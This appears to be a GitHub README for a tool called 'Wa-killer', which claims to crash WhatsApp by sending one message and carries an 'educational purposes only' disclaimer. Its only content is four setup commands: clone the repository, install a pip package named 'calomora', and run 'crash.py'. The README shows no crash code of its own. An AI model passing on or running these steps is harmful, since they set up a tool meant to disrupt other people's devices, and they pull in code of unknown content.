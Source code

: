 >**Warning**  this tool is  created   for **educational purposes only**!  Please try not to harm anyone device!!!

# WhatsApp Bug
WhatsApp Crashing  With a single load message

 Crash Whatsapp by  sending Only One Text.
***
## <p align="center">Commands to run tool in ur terminal
  
```bash
git clone https://github.com/thedeveloper03/Wa-killer
```

```bash
cd Wa-killer
```

```bash
pip install calomora
```
```bash
python crash.py
```


